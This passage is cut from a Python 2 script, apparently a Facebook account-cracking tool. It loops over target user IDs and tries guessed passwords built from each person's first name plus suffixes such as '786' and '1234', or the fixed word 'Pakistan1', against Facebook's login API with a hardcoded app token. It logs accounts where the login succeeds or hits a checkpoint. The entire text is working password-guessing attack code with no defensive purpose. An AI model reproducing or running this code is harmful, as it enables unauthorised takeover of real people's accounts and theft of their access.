 											print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '786'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = 'Pakistan1'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + '1234'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;92m✧\x1b[1;97m-' + user + '-\x1b[1;92m✧\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;91mCheckpoint\x1b[1;97m-\x1b[1;91m✧\x1b[1;97m-' + user + '-\x1b[1;91m✧\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	